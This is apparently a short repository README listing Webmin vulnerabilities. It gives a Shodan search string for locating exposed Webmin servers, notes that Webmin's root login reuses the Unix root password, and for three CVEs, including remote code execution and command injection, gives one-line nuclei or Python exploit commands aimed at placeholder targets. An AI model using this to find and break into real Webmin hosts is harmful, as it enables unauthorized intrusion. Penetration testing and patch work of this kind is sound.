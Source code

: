 # Webmin CVE
a Curated list of Webmin vulnerability.

## Shodan Dork
```
http.html:"webmin"
```

## default credential
root:unix_root_password
You should be able to login as root, using the same password as the root Unix user on your Linux system. However, if you change the Unix root password in future the Webmin root user will not change. This is because the package install just copies the current password from the /etc/shadow file.

## installing url
```
 http://_your-systems-hostname_:10000/
```


## CVE-2022-0824
Improper Access Control to Remote Code Execution in GitHub repository webmin/webmin prior to 1.990.

```
nuclei -u target.com:1000 -t CVE-2022-0824.yaml -v -V username=username -V password=password
```



## CVE-2022-36446
software/apt-lib.pl in Webmin before 1.997 lacks HTML escaping for a UI command.

```
nuclei -u target.com:1000 -t CVE-2022-36446.yaml -v -V username=username -V password=password
```


## CVE-2019-15107
An issue was discovered in Webmin <=1.920. The parameter old in password_change.cgi contains a command injection vulnerability.

```
python2 CVE_2019_15107.py https://target-ip:10000 cmd

```



## references
* [CVE-2022-0824](https://nvd.nist.gov/vuln/detail/cve-2022-0824)
* [installing webmin](https://doxfer.webmin.com/Webmin/Installing_Webmin)
* [Webmin Security Vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-358/Webmin.html)
* [CVE-2022-36446](https://www.tenable.com/cve/CVE-2022-36446)